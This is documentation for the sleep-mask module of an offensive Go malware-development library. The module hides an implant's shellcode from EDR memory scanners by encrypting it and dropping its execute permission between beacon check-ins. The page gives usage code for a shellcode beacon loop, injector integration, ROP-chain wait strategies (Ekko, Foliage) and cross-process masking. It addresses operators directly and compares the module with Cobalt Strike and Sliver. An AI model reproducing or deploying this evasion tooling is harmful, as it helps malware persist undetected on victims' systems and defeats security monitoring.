

---
---

# Encrypted Sleep (Sleep Mask)

> **MITRE ATT&CK:** T1027 — Obfuscated Files or Information
> **D3FEND:** D3-SMRA — System Memory Range Analysis
> **Detection:** Low · **Platform:** Windows

## TL;DR

A long-running implant sits in executable memory 24/7. Every EDR
worth its name scans those pages on a timer, looking for known
shellcode patterns — and the implant is idle most of the time
(waiting for tasks). Sleep masking flips the implant's pages from
executable to read-write + scrambles the bytes during sleep, so
the scanner sees random noise in non-executable memory instead.

This package gives you two orthogonal knobs to tune the trade-off:

| **Cipher** (how to scramble) | When to pick it |
|---|---|
| `NewXORCipher()` (default) | Smallest footprint. Periodic key visible to a determined analyst, doesn't matter if they only see one cycle. |
| `NewRC4Cipher()` | Stream cipher (no period). Required by Ekko/Foliage strategies. |
| `NewAESCTRCipher()` | Modern audited primitive. Slightly heavier code + CPU. |

| **Strategy** (where the wait happens) | When to pick it |
|---|---|
| `InlineStrategy{}` (default — L1) | Caller goroutine waits via `time.Sleep`. Simplest. |
| `InlineStrategy{UseBusyTrig: true}` (L1) | Defeats sandboxes that warp `time.Sleep` and EDRs hooking every kernel wait. Burns one core. |
| `TimerQueueStrategy{}` (L2-light) | Wait runs on a thread-pool worker — caller thread isn't sitting in `Sleep`. |
| `EkkoStrategy{}` (L2-full) | Beacon RIP hides inside a `WaitForSingleObjectEx` ROP chain. Single region, RC4 only, windows+amd64. |
| `FoliageStrategy{}` (L3) | Ekko + thread-stack scrubbing mid-wait. Strongest sleep evasion shipped. |

Default to **`InlineStrategy{}` + XOR**. Upgrade only when a
specific defender forces you to.

## Primer — vocabulary

Five terms recur on this page:

> **EDR memory scan** — the routine job an Endpoint Detection &
> Response agent does to find in-memory threats: walks all
> committed pages of the target process via `VirtualQueryEx`,
> filters for those marked executable (`PAGE_EXECUTE_READ` /
> `PAGE_EXECUTE_READWRITE`), then hashes or YARA-matches the
> bytes. Sleep masking exists to blind this exact scan.
>
> **VirtualProtect** — the Win32 API that changes a region's
> protection flags. Used twice per sleep cycle: once to drop
> `X` so the scanner skips the region, once to restore it
> before the implant runs again.
>
> **NtContinue ROP chain (Ekko)** — a sequence of return
> addresses written to a thread's stack so that as the thread
> "returns", it actually executes a chain of pre-chosen
> functions: VirtualProtect → SystemFunction032 (RC4) → wait →
> SystemFunction032 → VirtualProtect. Result: from any debugger
> snapshot during the wait, the beacon thread looks like it's
> doing legitimate Win32 work, not sleeping.
>
> **Stack scrubbing (Foliage)** — extends Ekko by adding an
> extra `memset` gadget that zeroes the used shadow frames
> mid-chain. Without it, a thread-stack walker mid-wait can
> still see the addresses of VirtualProtect / SystemFunction032 /
> the implant's return point. With it, the stack above Rsp is
> zeros — no clue what the thread did before reaching the wait.
>
> **`Region`** — a contiguous range of memory the mask should
> protect, given as `{Addr, Size}`. A `Mask` can hold multiple
> regions (for non-contiguous payloads — e.g., shellcode + a
> separately-allocated config block).

This package's `Mask` type composes a `Cipher` with a `Strategy`
and accepts a `context.Context` so sleep cycles can be cancelled.
It also ships a `RemoteMask` for masking memory in another process.
The e2e tests in [`sleepmask_e2e_windows_test.go`](../../../evasion/sleepmask/sleepmask_e2e_windows_test.go)
run a real concurrent memory scanner during `Sleep()` across the
available strategies and assert it finds nothing.

## How It Works



**Step-by-step:**

1. **Generate key** — `cipher.KeySize()` random bytes from `crypto/rand` (32 for XOR/RC4, 48 for AES-CTR).
2. **Downgrade + encrypt** — for each region: `VirtualProtect(PAGE_READWRITE, &origProtect[i])` then `cipher.Apply(buf, key)`.
3. **Wait** — delegated to the selected `Strategy`: `InlineStrategy` waits on the caller goroutine; `TimerQueueStrategy` waits on a thread-pool worker; `EkkoStrategy` waits inside a `WaitForSingleObjectEx` ROP gadget on a pool thread so the beacon RIP never sits in `Sleep`/`SleepEx`.
4. **Decrypt + restore** — `VirtualProtect(PAGE_READWRITE)` (idempotent), `cipher.Apply` again (self-inverse for XOR/RC4; symmetric counter for AES-CTR), `VirtualProtect(origProtect[i])` to restore the original bits.
5. **Scrub key** — `cleanup/memory.SecureZero(key)` so keying material does not linger on the Go stack.

## Taxonomy: Levels of sleep mask

| Level | Name | What it hides | Strategy in this package |
|---|---|---|---|
| L1 | Inline | Region bytes + executable bit | `InlineStrategy` (default) |
| L2-light | Pool thread | Above + caller thread's wait syscall is not Sleep | `TimerQueueStrategy` |
| L2-full | Ekko | Above + beacon thread RIP sits inside VirtualProtect / SystemFunction032 / WaitForSingleObjectEx via NtContinue ROP chain | `EkkoStrategy` |
| L3 | Foliage | L2 + thread stack scrubbing on wait (memset of used shadow frames) | `FoliageStrategy` |
| L4 | BOF-style | L3 + in-memory loader isolation | not shipped |

See the design spec in `.dev/superpowers/specs/2026-04-23-sleepmask-variants-design.md` for the full taxonomy and deferred work.

## Usage

### Quick start — mask one region during a 30-second sleep

You allocated executable memory for shellcode (via
`VirtualAlloc` + `VirtualProtect` to `PAGE_EXECUTE_READ`).
The implant just finished a beacon cycle and wants to sleep
for 30 seconds before the next check-in. The shortest path:

```go
package main

import (
    "context"
    "time"

    "github.com/oioio-space/maldev/evasion/sleepmask"
)

func sleepProtected(shellcodeAddr uintptr, shellcodeLen uintptr) {
    // Step 1: tell the mask which region to protect.
    //         shellcodeAddr points at PAGE_EXECUTE_READ memory
    //         holding your payload — typically what inject.* just
    //         allocated.
    mask := sleepmask.New(sleepmask.Region{
        Addr: shellcodeAddr,
        Size: shellcodeLen,
    })

    // Step 2: sleep. Behind the scenes:
    //   - VirtualProtect → PAGE_READWRITE (region drops 'X' bit)
    //   - XOR-scramble bytes with a fresh 32-byte random key
    //   - time.Sleep(30s)
    //   - XOR-decrypt (XOR is self-inverse)
    //   - VirtualProtect → PAGE_EXECUTE_READ (restored)
    //   - SecureZero the key off the stack
    _ = mask.Sleep(context.Background(), 30*time.Second)

    // After this returns, the region is back to PAGE_EXECUTE_READ
    // and contains the original payload, ready to execute.
}
```

What an EDR scanner sees during those 30 seconds:

- The region is `PAGE_READWRITE`, not executable. A scan filtered
  on executable pages skips it entirely.
- Even if the scanner sweeps RW pages too, the bytes are random
  noise — no YARA / hash signature matches.

What the scanner DOES still see:

- The region exists. A scanner that flags "any RW region of size
  ~150 KB on top of the heap" can still notice it (rare —
  most EDRs don't classify by size alone, false-positive rate
  is too high).
- The implant's beacon thread, if running on the inline strategy,
  is still parked in `time.Sleep` → `NtWaitForSingleObject`. A
  thread-stack walker sees that wait. Switch to `EkkoStrategy`
  to disguise the wait as `WaitForSingleObjectEx` inside a ROP
  chain.

### Multi-region: protect non-contiguous memory

```go
mask := sleepmask.New(
    sleepmask.Region{Addr: shellcode, Size: shellcodeLen},
    sleepmask.Region{Addr: reflectiveDLL, Size: dllSize},
    sleepmask.Region{Addr: configBlock, Size: configLen},
)
_ = mask.Sleep(context.Background(), 45*time.Second)
```

Each region keeps its own original protection. An RX region is restored to RX; an RWX region is restored to RWX. See [`TestSleepMaskE2E_MultiRegionIndependentEncryption`](../../../evasion/sleepmask/sleepmask_e2e_windows_test.go) and [`TestSleepMaskE2E_RestoresOriginalRWXProtection`](../../../evasion/sleepmask/sleepmask_e2e_windows_test.go).

#### Multi-region with Ekko

`EkkoStrategy`'s ROP chain is single-region by construction (the
NtContinue chain has hardcoded gadget slots for one VirtualProtect /
SystemFunction032 / VirtualProtect triplet). For multi-region masking
under the Ekko model, wrap it in `MultiRegionRotation`:

```go
mask := sleepmask.New(regionA, regionB, regionC).
    WithStrategy(&sleepmask.MultiRegionRotation{Inner: &sleepmask.EkkoStrategy{}}).
    WithCipher(sleepmask.NewRC4Cipher())
_ = mask.Sleep(context.Background(), 30*time.Second)
```

`MultiRegionRotation` runs `Inner.Cycle` once per region for `d/N`
seconds each. The total wall-clock duration matches `d`. **Trade-off:**
only one region is encrypted at any given moment — `regionA` is masked
during seconds [0, 10), `regionB` during [10, 20), `regionC` during
[20, 30). For simultaneous protection of all regions across the full
duration, use `InlineStrategy` or `TimerQueueStrategy`, both of which
already iterate over the regions slice up-front.

### Choosing a strategy

```go
// Default (L1): caller goroutine runs encrypt → wait → decrypt.
mask := sleepmask.New(region) // equivalent to WithStrategy(&InlineStrategy{})

// Same strategy but with a trigonometric busy-wait instead of time.Sleep.
mask := sleepmask.New(region).
    WithStrategy(&sleepmask.InlineStrategy{UseBusyTrig: true})

// L2-light: cycle runs on a thread-pool worker, caller blocks on an event.
mask := sleepmask.New(region).
    WithStrategy(&sleepmask.TimerQueueStrategy{})

// L2-full: NtContinue ROP chain (windows+amd64 only, RC4 cipher required).
mask := sleepmask.New(region).
    WithCipher(sleepmask.NewRC4Cipher()).
    WithStrategy(&sleepmask.EkkoStrategy{})

// L3 Foliage: Ekko + stack-scrub (zero our used gadget shadows
// mid-chain so a walker mid-wait sees clean zeros above Rsp instead
// of VP/SF032 residue).
mask := sleepmask.New(region).
    WithCipher(sleepmask.NewRC4Cipher()).
    WithStrategy(&sleepmask.FoliageStrategy{})
```

| Strategy | Thread doing the wait | Wait syscall on that thread | Cost | Status |
|---|---|---|---|---|
| `InlineStrategy{}` | caller goroutine | `NtWaitForSingleObject` (time.Sleep) | near-zero CPU | shipped |
| `InlineStrategy{UseBusyTrig: true}` | caller goroutine | none (CPU-bound trig loop) | full core busy | shipped |
| `TimerQueueStrategy{}` | thread-pool worker | `WaitForSingleObject` on a never-fired event | near-zero CPU | shipped |
| `EkkoStrategy{}` | thread-pool worker | `WaitForSingleObjectEx` reached via an NtContinue gadget chain | near-zero CPU | shipped (windows+amd64, RC4 only, single region) |
| `FoliageStrategy{}` | thread-pool worker | Same as Ekko + extra `memset` gadget scrubs used shadow frames to zeros before the wait | near-zero CPU | shipped (L3; windows+amd64, RC4 only, single region) |

Rule of thumb: default to `InlineStrategy{}`. Switch to `TimerQueueStrategy{}` when you want the beacon goroutine's wait to look distinct from `Sleep`. Switch to `InlineStrategy{UseBusyTrig: true}` when you're fighting a sandbox that warps time or an EDR that has hooked every kernel wait primitive.

### Choosing a cipher

```go
mask := sleepmask.New(region).WithCipher(sleepmask.NewRC4Cipher())
```

| Cipher | Keyspace | Strengths | Weaknesses |
|---|---|---|---|
| `NewXORCipher()` (default) | 32 bytes, repeating | tiny, dependency-free, self-inverse | 32-byte period visible under key-period analysis |
| `NewRC4Cipher()` | 32 bytes, stream | stream cipher, no period, required by `EkkoStrategy` (SystemFunction032) | RC4 key-schedule biases — not a cryptographic guarantee |
| `NewAESCTRCipher()` | 48 bytes (32 key + 16 nonce) | modern, audited primitive | larger code footprint, slightly heavier CPU |

The cipher has no bearing on scanner evasion (any of them scrambles the region) — it matters for analysts dumping the region and trying to reconstruct bytes after seeing multiple cycles under the same key material. Since the key is fresh per cycle, the practical gap between XOR and AES is small; pick on footprint.

### Real beacon loop

```go
package main

import (
    "time"
    "unsafe"

    "golang.org/x/sys/windows"

    "github.com/oioio-space/maldev/evasion/sleepmask"
    "github.com/oioio-space/maldev/inject"
)

func beacon(shellcode []byte) error {
    size := uintptr(len(shellcode))
    addr, err := windows.VirtualAlloc(0, size,
        windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
    if err != nil {
        return err
    }
    copy(unsafe.Slice((*byte)(unsafe.Pointer(addr)), len(shellcode)), shellcode)

    var old uint32
    if err := windows.VirtualProtect(addr, size, windows.PAGE_EXECUTE_READ, &old); err != nil {
        return err
    }

    mask := sleepmask.New(sleepmask.Region{Addr: addr, Size: size})

    for {
        // Run your beacon logic: check in, pull tasks, execute, exfil.
        if err := inject.ExecuteCallback(addr, inject.CallbackEnumWindows); err != nil {
            return err
        }
        // Hide while idle.
        _ = mask.Sleep(context.Background(), 30*time.Second)
    }
}
```

### Integrating with inject.SelfInjector

When the shellcode lands via one of the self-process injection methods
(`MethodCreateThread`, `MethodCreateFiber`, `MethodEtwpCreateEtwThread` on
Windows; `MethodProcMem` on Linux), you don't need to allocate or track
the region manually — the injector already did. Type-assert the returned
`Injector` to `inject.SelfInjector` and pull the region directly into the
mask:

```go
inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
    Config:        inject.Config{Method: inject.MethodCreateThread},
    SyscallMethod: wsyscall.MethodIndirect,
})
if err != nil { return err }
if err := inj.Inject(shellcode); err != nil { return err }

self, ok := inj.(inject.SelfInjector)
if !ok { return fmt.Errorf("not a self-process injector") }

r, ok := self.InjectedRegion()
if !ok { return fmt.Errorf("no region published (cross-process method?)") }

mask := sleepmask.New(sleepmask.Region{Addr: r.Addr, Size: r.Size}).
    WithStrategy(&sleepmask.InlineStrategy{UseBusyTrig: true})

for {
    // beacon work...
    _ = mask.Sleep(context.Background(), 30*time.Second)
}
```

The `SelfInjector` contract: returns `(Region{}, false)` before the first
successful `Inject`, after a failed `Inject`, or when the method is
cross-process (CRT / APC / EarlyBird / ThreadHijack / Rtl / NtQueueApcThreadEx).
Decorators (`WithValidation`, `WithCPUDelay`, `WithXOR`) and `Pipeline`
forward the region transparently, so the same pattern works at the end of
any `Chain`. See `docs/techniques/injection/README.md` for the injection
side of the contract.

## Verifying It Works

The e2e suite runs a concurrent `testutil.ScanProcessMemory` — the same loop an EDR uses: `VirtualQuery` every page, filter for `PAGE_EXECUTE_*`, search for a signature — **while** `Mask.Sleep()` is in progress. Key fixtures:

- `testutil.WindowsSearchableCanary` — a 19-byte payload: `xor eax,eax; ret` followed by the ASCII marker `MALDEV_CANARY!!\n`. The marker makes the region trivially findable on an executable page.
- `testutil.ScanProcessMemory(marker)` — walks every committed region in the process, returns the first hit on an executable page.

The canonical test proves the full contract in one shot:

```go
// From sleepmask_e2e_windows_test.go
func TestSleepMaskE2E_DefeatsExecutablePageScanner(t *testing.T) {
    payload := testutil.WindowsSearchableCanary
    addr, cleanup := allocAndWriteRX(t, payload) // allocs + flips to PAGE_EXECUTE_READ
    defer cleanup()

    // Baseline: findable before masking.
    marker := []byte("MALDEV_CANARY!!\n")
    _, ok := testutil.ScanProcessMemory(marker)
    require.True(t, ok, "baseline scan must find canary before masking")

    mask := sleepmask.New(sleepmask.Region{Addr: addr, Size: uintptr(len(payload))})

    // Concurrent scanner during the sleep.
    var scanHits, scanAttempts int32
    stopScan := make(chan struct{})
    scanDone := make(chan struct{})
    go func() {
        defer close(scanDone)
        for {
            select {
            case <-stopScan: return
            default:
            }
            atomic.AddInt32(&scanAttempts, 1)
            if _, hit := testutil.ScanProcessMemory(marker); hit {
                atomic.AddInt32(&scanHits, 1)
            }
            time.Sleep(5 * time.Millisecond)
        }
    }()

    _ = mask.Sleep(context.Background(), 300*time.Millisecond)
    close(stopScan); <-scanDone

    assert.Zero(t, atomic.LoadInt32(&scanHits),
        "concurrent scanner must NOT find canary during masked sleep")
    assert.Greater(t, atomic.LoadInt32(&scanAttempts), int32(5),
        "scanner must have run several passes during the sleep")

    _, ok = testutil.ScanProcessMemory(marker)
    assert.True(t, ok, "canary must be findable again after sleep returns")
}
```

The full suite (all run on a real Win10 VM via `scripts/vm-run-tests.sh`):

| Test | What it proves |
|---|---|
| `TestSleepMaskE2E_DefeatsExecutablePageScanner` | ~60 concurrent scans during a 300 ms sleep, zero hits. Scan finds the canary before and after. |
| `TestSleepMaskE2E_RestoresOriginalRXProtection` | Mid-sleep `VirtualQuery` reports `PAGE_READWRITE`; post-sleep reports `PAGE_EXECUTE_READ`. |
| `TestSleepMaskE2E_RestoresOriginalRWXProtection` | An RWX region stays RWX after the cycle (not collapsed to RX). |
| `TestSleepMaskE2E_MultiRegionIndependentEncryption` | Two distinct markers, each region scrambled mid-sleep, both bytes restored. |
| `TestSleepMaskE2E_BeaconLoopStableAcrossCycles` | 10 back-to-back cycles; bytes and protection unchanged after every cycle. |
| `TestSleepMaskE2E_BusyTrigAlsoDefeatsScanner` | `InlineStrategy{UseBusyTrig: true}` gives the same scanner-defeating guarantee as the default. |
| `TestSleepMaskE2E_DefeatsExecutablePageScanner/{inline,timerqueue}` | sub-tests loop the core scan-defeats invariant over every shipped strategy. |
| `TestTimerQueueStrategy_CycleRoundTrip` / `_CtxCancellation` | Pool-thread variant encrypts + decrypts correctly and still decrypts on `ctx.DeadlineExceeded`. |
| `TestEkkoStrategy_RejectsNonRC4Cipher` / `_RejectsMultiRegion` | Ekko validates its input constraints (RC4 only, single region). |
| `TestRemoteInlineStrategy_RoundTrip` | RemoteMask round-trips bytes through `ReadProcessMemory → Apply → WriteProcessMemory` against a spawned notepad. |

Run locally:

```bash
./scripts/vm-run-tests.sh windows "./evasion/sleepmask/..." "-v -count=1 -run TestSleepMaskE2E"
```

## Common Pitfalls

**Order-of-operations matters.** The region under protection is almost always `PAGE_EXECUTE_READ` after a typical injection sequence. Writing the XOR pass **before** the `VirtualProtect(RW)` will raise `STATUS_ACCESS_VIOLATION` on the first byte. The sleep mask consistently `VirtualProtect`s first, then XORs. If you extend this package, preserve that order. (This was historically a bug; the added e2e test `TestSleepMaskE2E_RestoresOriginalRXProtection` pins the behavior.)

**The mask code itself is unencrypted.** Code paths executing `Mask.Sleep` — the XOR loop, the VirtualProtect calls, the timer — must stay executable. You cannot mask the mask. Treat it as a small scannable kernel; keep it short, keep it varied if possible, and don't register its own `.text` as a region.

**The key is on the stack during sleep.** `Mask.Sleep` zeroes the key via `cleanup/memory.SecureZero` only after the region is decrypted. During the sleep itself the 32-byte key lives on the Go stack frame of `Sleep`. A targeted memory dump timed exactly mid-sleep could recover it and undo the protection. If that matters, consider `cleanup/memory.DoSecret` (Go 1.26+ `GOEXPERIMENT=runtimesecret` path) to wrap the whole cycle — see `docs/techniques/cleanup/memory-wipe.md`.

**Very short sleeps cost more than they hide.** Below ~50 ms the VirtualProtect + XOR round-trip becomes a measurable fraction of the "sleep", and you've traded scanner-visibility for API-call-volume visibility. Sleep mask pays off when the idle interval is comfortably longer than the encrypt/decrypt cycle.

**`InlineStrategy` still goes through the kernel.** Go's `time.Sleep` on Windows is implemented via a timer object. Any EDR hooking `NtWaitForSingleObject` or the scheduler will observe the wait — it won't see the scrambled memory, but it will see you sleeping. Use `InlineStrategy{UseBusyTrig: true}` to avoid any wait syscall, or `TimerQueueStrategy` to move the wait off the caller goroutine.

## Comparison

| Feature | maldev/sleepmask | Cobalt Strike BOF sleep_mask | Sliver sleep mask |
|---|---|---|---|
| Cipher | repeating-key XOR (32 bytes, fresh per sleep) | XOR (historically); tunable via BOF | AES |
| Permission downgrade | yes, per-region, original restored | yes | yes |
| Multi-region | yes | generally one | generally one |
| Busy-wait alternative | `InlineStrategy{UseBusyTrig: true}` | no (BOF-replaceable) | no |
| Pluggable cipher | XOR / RC4 / AES-CTR | BOF-replaceable | AES only |
| Pluggable wait-thread | `InlineStrategy`, `TimerQueueStrategy`, `EkkoStrategy`, `FoliageStrategy` | no | no |
| Stack scrubbing during wait | `FoliageStrategy` (L3 — zeros used shadow frames mid-chain) | BOF-replaceable | no |
| Cross-process masking | `RemoteMask` + `RemoteInlineStrategy` | yes | yes |
| Key zeroing | yes (`SecureZero`) | varies by BOF | yes |
| Self-encryption | no (limitation) | no | no |

## Running the demo

`cmd/sleepmask-demo` exercises both scenarios with a configurable cipher/strategy and a concurrent scanner:

```bash
# Scenario A: mask a canary in our own process (default strategy=inline, cipher=xor).
go run ./cmd/sleepmask-demo -scenario=self -cycles=3 -sleep=5s

# Pool-thread variant, aes cipher, 10s sleeps.
go run ./cmd/sleepmask-demo -scenario=self -strategy=timerqueue -cipher=aes -cycles=2 -sleep=10s

# Scenario B: spawn notepad suspended, mask a canary in its address space.
go run ./cmd/sleepmask-demo -scenario=host -host-binary='C:\Windows\System32\notepad.exe' -cipher=rc4
```

The scanner prints `HIT` before/after each cycle and `MISS` throughout the masked window.

## API Reference

Package: `github.com/oioio-space/maldev/evasion/sleepmask`. The
contract is `Mask` for in-process regions, `RemoteMask` for cross-
process. Both follow the same `WithCipher(...).WithStrategy(...).Sleep(ctx, d)`
shape. Cipher implementations must be **self-inverse**
(`Apply(Apply(x, k), k) == x`) so encrypt and decrypt are the same
call.

### Local Mask

#### `type Region struct { Addr, Size uintptr }`

Single memory window descriptor. Multi-region setups pass a slice
to `New(...regions)`.

**Side effects:** pure data.

**OPSEC / Required privileges / Platform:** N/A.

#### `type Cipher interface { Apply(buf, key []byte); KeySize() int }`

Self-inverse byte transform applied to region bytes during the
encrypt + decrypt halves of one Sleep cycle.

**OPSEC:** the cipher choice trades CPU cost vs entropy delta — XOR
is fast but produces a region that still carries the shellcode's
byte distribution; RC4 / AES-CTR fully randomise.

**Platform:** cross-platform.

#### `sleepmask.NewXORCipher() *XORCipher` / `NewRC4Cipher() *RC4Cipher` / `NewAESCTRCipher() *AESCTRCipher`

Concrete `Cipher` constructors. XOR is the package default for
`Mask` when no `WithCipher` is set. RC4 is required when using
`EkkoStrategy` / `FoliageStrategy` (those do their own scratch RC4
internally and the API parity matters).

**Returns:** the typed cipher (each implements `Cipher`).

**Side effects:** none at construction.

**OPSEC / Required privileges / Platform:** as `Cipher`.

#### `type Strategy interface { Cycle(ctx, regions []Region, cipher Cipher, key []byte, d time.Duration) error }`

The encrypt → wait → decrypt cycle, abstracted so callers can
swap between in-thread (`InlineStrategy`), timer-queue
(`TimerQueueStrategy`), and ROP-gadget-driven
(`EkkoStrategy`, `FoliageStrategy`) execution.

**Platform:** Inline / TimerQueue cross-platform; Ekko / Foliage
Windows + amd64 only.

#### `type FoliageStrategy struct { ScrubBytes uintptr }`

Ekko + a stack-scrub gadget that zeroes the used gadget shadow
frames before the wait. `ScrubBytes == 0` defaults to `2 *
ekkoShadowStride`; oversized values are clamped to a safe max so
the memset gadget cannot clobber its own return frame.

**Side effects:** writes zeros over the recorded shadow stack
during each cycle.

**OPSEC:** the most thorough hibernation primitive — masked region
+ scrubbed gadget chain. Detection focuses on the gadget addresses
themselves (Cobalt Strike's Ekko/Foliage signatures hit here too).

**Required privileges:** unprivileged.

**Platform:** Windows + amd64.

#### `sleepmask.New(regions ...Region) *Mask`

Construct a `Mask` covering the given regions with defaults
(`XORCipher` + `InlineStrategy`).

**Returns:** `*Mask` (never nil).

**Side effects:** none at construction; key buffer allocated on
first `Sleep`.

**OPSEC:** as the chosen cipher + strategy.

**Required privileges:** unprivileged.

**Platform:** cross-platform (with strategy-specific Windows-only
restrictions noted above).

#### `(*Mask).WithCipher(c Cipher) *Mask` / `(*Mask).WithStrategy(s Strategy) *Mask`

Fluent setters. `nil` reverts to the package default for that slot.

**Returns:** the receiver (chainable).

**Side effects:** mutates the Mask state.

#### `(*Mask).Sleep(ctx context.Context, d time.Duration) error`

Run one encrypt → wait → decrypt cycle.

**Parameters:** `ctx` for cancellation; `d` the wait duration.

**Returns:** `ctx.Err()` if the wait was cancelled; the strategy's
error on syscall failure; `nil` on success. Zero regions or
non-positive `d` short-circuits to nil.

**Side effects:** writes the cipher output over each region (encrypt),
sleeps via the chosen strategy, writes the cipher output again
(decrypt — equivalent to encrypt thanks to self-inverse property).
**Decrypt always runs, even on context cancellation** — region is
never left ciphered.

**OPSEC:** during the wait window, the regions hold ciphered
bytes — memory scanners will not match shellcode signatures. The
wait-strategy choice determines stack/thread visibility (Inline:
caller's thread parked; TimerQueue: kernel-managed; Ekko/Foliage:
ROP-gadget-driven, no implant code on the stack).

**Required privileges:** unprivileged.

**Platform:** cross-platform.

### Remote Mask (cross-process)

#### `type RemoteRegion struct { Handle, Addr, Size uintptr }`

Cross-process region descriptor. `Handle` must carry
`PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ`.

**Side effects:** pure data (the handle itself is not closed by
the package).

**OPSEC:** holding a handle with these access rights against another
process is the high-fidelity Sysmon Event 10 trigger; the masking
itself is the secondary signal.

**Required privileges:** as the handle.

**Platform:** Windows.

#### `type RemoteStrategy interface { Cycle(ctx, regions []RemoteRegion, cipher, key, d) error }`

Cross-process counterpart of `Strategy`. Currently only an inline
implementation ships.

#### `sleepmask.NewRemote(regions ...RemoteRegion) *RemoteMask` / `(*RemoteMask).WithCipher` / `WithStrategy` / `Sleep`

Same fluent shape and semantics as the local Mask, but the
encrypt + decrypt happen via `NtReadVirtualMemory` /
`NtWriteVirtualMemory` against the remote process.

**Side effects:** N reads + N writes per cycle, where N is the
region count.

**OPSEC:** doubles the cross-process IPC traffic per cycle.
Detection: `NtReadVirtualMemory` / `NtWriteVirtualMemory` patterns
against a non-self handle.

**Required privileges:** as the handle.

**Platform:** Windows.

## See also

- [Evasion area README](README.md)
- [`evasion/callstack`](callstack-spoof.md) — pair with callstack-spoof so the hibernating thread's stack is also obfuscated
- [`evasion/preset`](preset.md) — Stealth preset includes the Foliage strategy
